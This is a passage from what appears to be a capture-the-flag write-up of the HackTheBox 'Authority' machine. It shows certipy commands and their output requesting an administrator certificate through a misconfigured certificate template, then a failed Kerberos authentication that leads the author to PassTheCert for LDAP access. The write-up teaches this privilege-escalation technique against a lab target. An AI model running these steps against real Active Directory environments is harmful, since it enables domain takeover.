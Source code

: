 The result is a certificate plus private key saved in `administrator_authority.pfx`:

```

oxdf@hacky$ certipy req -username '0xdf$' -password 0xdf0xdf0xdf -ca AUTHORITY-CA -dc-ip 10.10.11.222 -template CorpVPN -upn administrator@authority.htb -dns authority.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 3
[*] Got certificate with multiple identifications
    UPN: 'administrator@authority.htb'
    DNS Host Name: 'authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_authority.pfx'

```

### PassTheCert

#### Auth [Fail]

Typically at this point I would use the `auth` command to get the NTLM hash for the administrator user:

```

oxdf@hacky$ certipy auth -pfx administrator_authority.pfx 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'administrator@authority.htb'
    [1] DNS Host Name: 'authority.htb'
> 0
[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)

```

This happens “when a domain controller doesn’t have a certificate installed for smart cards”, according to [this post](https://posts.specterops.io/certificates-and-pwnage-and-patches-oh-my-8ae0f4304c1d) from Specterops. Specifically, it happens because “the DC isn’t properly set up for PKINIT and authentication will fail”.

The same post suggests an alternative path:

> If you run into a situation where you can enroll in a vulnerable certificate template but the resulting certificate fails for Kerberos authentication, you can try authenticating to LDAP via SChannel using something like [PassTheCert](https://github.com/AlmondOffSec/PassTheCert). You will only have LDAP access, but this should be enough if you have a certificate stating you’re a domain admin.
